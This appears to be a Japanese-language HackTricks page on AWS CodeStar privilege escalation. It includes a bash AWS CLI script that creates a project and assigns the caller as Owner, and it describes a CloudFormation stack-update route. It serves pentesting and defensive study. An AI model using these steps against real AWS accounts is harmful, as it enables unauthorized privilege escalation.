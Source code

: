 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

Codestarに関する詳細情報は以下で確認できます：

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

これらの権限を使用すると、**cloudformationテンプレート**を介して**任意のアクション**を実行するために**codestar IAMロールを悪用**できます。以下のページを確認してください：

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

この技術は、`codestar:CreateProject`を使用してcodestarプロジェクトを作成し、`codestar:AssociateTeamMember`を使用してIAMユーザーを新しいCodeStar **プロジェクト**の**オーナー**にすることで、**いくつかの追加権限を持つ新しいポリシー**を付与します。
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
もしあなたがすでに**プロジェクトのメンバー**であれば、権限**`codestar:UpdateTeamMember`**を使用して**役割をオーナーに更新**できます。`codestar:AssociateTeamMember`の代わりに。

**潜在的な影響:** codestarポリシーへのプライベートエスカレーション。以下のポリシーの例を見つけることができます。

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **新しいプロジェクトを作成:**
- **`codestar:CreateProjectFromTemplate`**アクションを利用して新しいプロジェクトの作成を開始します。
- 成功裏に作成されると、**`cloudformation:UpdateStack`**へのアクセスが自動的に付与されます。
- このアクセスは、`CodeStarWorker-<generic project name>-CloudFormation` IAMロールに関連付けられたスタックを特に対象とします。
2. **ターゲットスタックを更新:**
- 付与されたCloudFormation権限を使用して、指定されたスタックを更新します。
- スタックの名前は通常、次の2つのパターンのいずれかに従います:
- `awscodestar-<generic project name>-infrastructure`
- `awscodestar-<generic project name>-lambda`
- 正確な名前は選択したテンプレートに依存します（例のエクスプロイトスクリプトを参照）。
3. **アクセスと権限:**
- 更新後、スタックに関連付けられた**CloudFormation IAMロール**に割り当てられた機能を取得します。
- 注意: これは本質的に完全な管理者権限を提供するものではありません。権限をさらに昇格させるためには、環境内の追加の誤設定されたリソースが必要になる場合があります。

詳細については、元の研究を確認してください: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/)。\
エクスプロイトは[https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)で見つけることができます。

**潜在的な影響:** cloudformation IAMロールへのプライベートエスカレーション。

{{#include ../../../../banners/hacktricks-training.md}}
